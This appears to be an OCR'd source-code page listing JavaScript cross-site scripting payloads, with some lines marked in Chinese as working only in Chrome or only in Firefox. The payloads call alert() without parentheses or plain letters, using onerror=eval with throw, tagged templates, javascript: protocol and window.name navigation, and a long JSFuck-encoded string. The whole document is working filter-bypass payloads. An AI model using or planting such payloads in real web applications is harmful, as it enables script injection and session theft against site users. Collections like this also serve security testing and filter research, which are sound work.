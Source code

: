 仅 Chrome

    onerror=eval;throw'=alert\x2823\x29';

---

    {onerror=alert}throw 23

----

    throw{},onerror??=alert,"XSS"??123

----

    http://example.com/?%0aalert(23)
    location.protocol='javascript:'

----

    [].sort.call`${alert}23`

----

    [].map.call`${eval}\\u{61}lert\x2823\x29`

----

    window.name='javascript:alert(23)';
    Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`;

----

仅 Firefox

    throw onerror=eval,SyntaxError`alert\x2823\x29`

----

仅 Firefox

    throw onerror=eval,Error`alert\x2823\x29`

----

    throw Uncaught=onerror=eval,e=Error`*/;alert\x2823\x29`,e.name='/*',e

----

    [][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]][[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[[]+{}][+[]][+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[![]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[!![]+[]][+[]][+!+[]]+[[][[]]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][!+[]+!+[]+!+[]]+[!![]+[]][+[]][+[]]+[[]+{}][+[]][+!+[]]+[!![]+[]][+[]][+!+[]]]`$${[!{}+[]][+[]][+!+[]]+[!{}+[]][+[]][+!+[]+!+[]]+[!{}+[]][+[]][+!+[]+!+[]+!+[]+!+[]]+[!![]+[]][+[]][+!+[]]+[!![]+[]][+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[+!+[]][+[]]+[[][[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+[[][[]]+[]][+[]][!+[]+!+[]]]+[]][+[]][+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]}$```//Function(alert(1))
